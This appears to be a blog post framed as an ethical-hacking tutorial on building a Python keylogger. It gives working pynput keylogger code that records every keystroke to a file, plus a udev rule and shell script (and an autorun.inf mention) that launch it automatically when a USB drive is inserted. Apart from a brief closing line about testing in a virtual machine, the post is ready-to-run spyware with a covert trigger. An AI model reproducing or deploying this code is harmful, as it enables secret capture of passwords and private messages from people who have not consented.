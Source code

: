 ```yaml
---
layout: post
title: "Building a Python Keylogger: A Security Researcher’s development to Understanding Keystroke Logging"
date: 2024-09-24
lastmod: 2024-09-24
author: "Bhaskar"
categories: [ Cybersecurity, Ethical Hacking, Python Programming, Keylogging, Security Research ]
description: "A step-by-step writeup to building a Python-based keylogger, designed for ethical security researchers to understand how keystroke logging works, and best practices for staying within legal boundaries."
authorLink: "https://linkedin.com/in/bhaskarvilles"
images: ["https://i.ibb.co/8cQfMsT/Whats-App-Image-2024-09-25-at-19-00-45.jpg"] # Replace with an actual image link relevant to keylogging or cybersecurity
tags:
  - Keylogging
  - Python Programming
  - Cybersecurity
  - Security Research
  - Ethical Hacking
  - Python Scripts
  - Keystroke Logging
  - Security Tools
  - Penetration Testing
  - Educational Purposes
featured: true
readingTime: true
comments: true
seo:
  keywords: ["Python Keylogger", "Cybersecurity", "Ethical Hacking", "Keystroke Logging", "Security Research", "Keylogger Tutorial", "Python Security Tools", "Penetration Testing"]
---
```


### Setting up USB Autorun (for testing):
1. **Windows**: You would need an `autorun.inf` file on the USB, but keep in mind this is typically disabled by default for security.
   
2. **Linux/macOS**: You can set up a udev rule on Linux that triggers a script when a USB drive is inserted.

Here’s an example of how you might trigger your Python script on Linux when a USB drive is inserted using **udev rules**.

### Steps for Linux Setup:

1. **Create udev rule**:
   First, create a udev rule to detect the USB drive and execute the Python script.

   Create the file `/etc/udev/rules.d/99-usb-keylogger.rules`:

   ```bash
   sudo nano /etc/udev/rules.d/99-usb-keylogger.rules
   ```

   Add the following content:

   ```bash
   ACTION=="add", ATTRS{idVendor}=="XXXX", ATTRS{idProduct}=="YYYY", RUN+="/path/to/keylogger.sh"
   ```

   Replace `XXXX` and `YYYY` with the actual vendor ID and product ID of your USB. You can find them by running `lsusb` after inserting the USB.

2. **Create a shell script** to run the Python keylogger:

   Save this file as `keylogger.sh` in `/path/to/keylogger.sh` (make sure the path matches the udev rule):

   ```bash
   #!/bin/bash
   python3 /path/to/keylogger.py &
   ```

   Make the script executable:

   ```bash
   chmod +x /path/to/keylogger.sh
   ```

3. **Test**: When you plug in the USB drive, the `keylogger.sh` script should be triggered, which in turn starts the Python keylogger.

### Python Keylogger (Same as Above):

```python
from pynput.keyboard import Key, Listener

log_file = "/path/to/keystrokes.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f" [{key}] ")

def on_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

<a href="https://ibb.co/56C0651"><img src="https://i.ibb.co/80GC0jm/Whats-App-Image-2024-09-25-at-19-00-23.jpg" alt="Whats-App-Image-2024-09-25-at-19-00-23" border="0"></a>

### Testing Environment
To safely test these kinds of setups:
- **Use a virtual machine**: This ensures that any experiments are isolated and won’t affect your main system.
- **Have clear logs**: Log all activity to better understand the behavior and outcomes.
